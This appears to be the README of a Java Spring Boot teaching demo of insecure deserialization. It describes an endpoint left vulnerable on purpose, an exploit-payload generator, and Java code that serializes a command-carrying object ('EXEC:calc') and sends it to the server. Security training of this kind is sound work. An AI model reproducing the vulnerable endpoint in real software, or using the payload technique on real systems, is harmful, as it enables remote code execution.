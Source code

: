 ### The Exploit

An attacker can:
1. Create a `VulnerableClass` instance with data like "EXEC:calc"
2. Serialize it to bytes
3. Base64 encode the bytes
4. Send it to the `/api/deserialize` endpoint
5. The server deserializes it and executes the command

## Running the Demo

### Prerequisites

- Java 11 or higher
- Maven 3.6 or higher

### Building and Running

```bash
# Build the project
mvn clean compile

# Run the Spring Boot application
mvn spring-boot:run
```

The application will start on `http://localhost:8080`

### Using the Frontend

1. Open `http://localhost:8080` in your browser
2. Check the server health
3. Test with safe payloads first
4. Try the exploit demonstration (be careful!)

## API Endpoints

- `GET /api/health` - Check if server is running
- `POST /api/deserialize` - Vulnerable deserialization endpoint
- `POST /api/generate-safe-payload` - Generate safe serialized payloads
- `POST /api/generate-exploit-payload` - Generate exploit payloads

## Example Exploit

Here's how an attacker could exploit this vulnerability:

```java
// Create malicious object
VulnerableClass exploit = new VulnerableClass("EXEC:calc");

// Serialize it
ByteArrayOutputStream bos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(exploit);
oos.close();

// Base64 encode
String payload = Base64.getEncoder().encodeToString(bos.toByteArray());

// Send to vulnerable endpoint
// POST /api/deserialize with payload as body
```

